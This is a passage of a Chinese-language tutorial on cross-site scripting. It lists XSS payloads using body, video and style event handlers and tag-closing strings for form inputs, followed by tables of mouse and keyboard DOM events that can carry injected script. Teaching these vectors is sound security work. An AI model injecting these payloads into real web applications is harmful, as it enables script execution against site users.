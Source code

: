 ```html
<body onload=alert(/xss/)>
<body onpageshow=alert(1)>
```
#### video
`<video></video>` 标签是引用远程媒体视频的标签，用法与img类似

```html
<video onerror="alert(/xss/)" src="1"/>
```
#### style
`<style></style> `标签是加载CSS资源的标签

```html
<style οnlοad=alert(1)></style>
```
### 表单类
在web中，最常见的为表单了，表单中的标签有`<input />、<textarea></textarea>`等等
在这里更多的是闭合语句来构成XSS比如

```html
"/><script>alert(/xss/)</script>
></textarea><script>alert(/xss/)</script>
...
```
### 事件类
在HTML中有许多事件操作的方法（DOM事件），如onclick事件，ondblclick事件等等，只需要用户点击，或者双击也可以执行JavaScript代码，在这里就需要闭合，在**块级元素**中添加事件方法。
常见的DOM事件方法如下
#### 鼠标事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onclick](https://www.runoob.com/jsref/event-onclick.html) | 当用户点击某个对象时调用的事件句柄。 | 2 |
| [oncontextmenu](https://www.runoob.com/jsref/event-oncontextmenu.html) | 在用户点击鼠标右键打开上下文菜单时触发 |   |
| [ondblclick](https://www.runoob.com/jsref/event-ondblclick.html) | 当用户双击某个对象时调用的事件句柄。 | 2 |
| [onmousedown](https://www.runoob.com/jsref/event-onmousedown.html) | 鼠标按钮被按下。 | 2 |
| [onmouseenter](https://www.runoob.com/jsref/event-onmouseenter.html) | 当鼠标指针移动到元素上时触发。 | 2 |
| [onmouseleave](https://www.runoob.com/jsref/event-onmouseleave.html) | 当鼠标指针移出元素时触发 | 2 |
| [onmousemove](https://www.runoob.com/jsref/event-onmousemove.html) | 鼠标被移动。 | 2 |
| [onmouseover](https://www.runoob.com/jsref/event-onmouseover.html) | 鼠标移到某元素之上。 | 2 |
| [onmouseout](https://www.runoob.com/jsref/event-onmouseout.html) | 鼠标从某元素移开。 | 2 |
| [onmouseup](https://www.runoob.com/jsref/event-onmouseup.html) | 鼠标按键被松开。 | 2 |

#### 键盘事件
| 属性 | 描述 | DOM |
| --- | --- | --- |
| [onkeydown](https://www.runoob.com/jsref/event-onkeydown.html) | 某个键盘按键被按下。 | 2 |
| [onkeypress](https://www.runoob.com/jsref/event-onkeypress.html) | 某个键盘按键被按下并松开。 | 2 |
| [onkeyup](https://www.runoob.com/jsref/event-onkeyup.html) | 某个键盘按键被松开。 | 2 |
